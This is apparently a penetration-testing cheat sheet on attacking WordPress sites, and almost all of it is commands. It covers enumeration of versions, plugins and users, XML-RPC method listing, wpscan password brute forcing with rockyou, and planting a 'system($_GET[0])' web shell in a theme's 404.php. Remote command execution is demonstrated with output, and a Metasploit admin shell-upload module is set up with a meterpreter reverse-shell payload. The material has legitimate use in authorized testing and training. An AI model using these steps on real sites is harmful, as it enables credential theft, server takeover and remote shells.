 ## Wordpress

### Enumeration
Interesting files :

```bash
/robots.txt
/wp-sitemap.xml
/wp-admin/admin-ajax.php
/wp-login.php
wp-content/plugins
wp-content/themes
```

Enumeration commands (versions, plugins, themes) :

```bash
curl -s -X GET http://$TARGET | grep '<meta name="generator"'
curl -s -X GET http://$TARGET | sed 's/href=/\n/g' | sed 's/src=/\n/g' | grep 'themes' | cut -d"'" -f2
curl -s -X GET http://$TARGET | sed 's/href=/\n/g' | sed 's/src=/\n/g' | grep 'wp-content/plugins/*' | cut -d"'" -f2

wpscan --url http://$TARGET --enumerate --api-token <API_TOKEN>
```

Retrieve users :
```bash
curl http://$TARGET/wp-json/wp/v2/users | jq
curl -s -I http://$TARGET/?author=1 #then 2 3 ... 
```

Get all accepted XML-RPC methods :
```bash
curl -s -X POST http://$TARGET/xmlrpc.php -d "<methodCall><methodName>system.listMethods</methodName><params></params></methodCall>" -v
```

### Exploitation

Bruteforcing user's password

```bash
wpscan --password-attack xmlrpc -t 20 -U admin -P /usr/share/wordlists/rockyou.txt --url http://$TARGET
```

- Check for vulnerable plugins

As admin We can edit 404.php file from a theme as a reverse shell (and get RCE) 

Editing (for example) : 

```bash
http://$TARGET/wp-admin/theme-editor.php?file=404.php&theme=twentynineteen
```

Add :
```php
system($_GET[0]);
# or https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
```

Trigger : 
```bash
curl http://$TARGET/wp-content/themes/twentynineteen/404.php?0=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Same steps using metasploit : 
```bash
msf6 > use exploit/unix/webapp/wp_admin_shell_upload 

[*] No payload configured, defaulting to php/meterpreter/reverse_tcp

msf6 exploit(unix/webapp/wp_admin_shell_upload) > set username john
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set password firebird1
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set lhost $tun0
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhost $target_ip  
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set VHOST vhost (if needed)
```
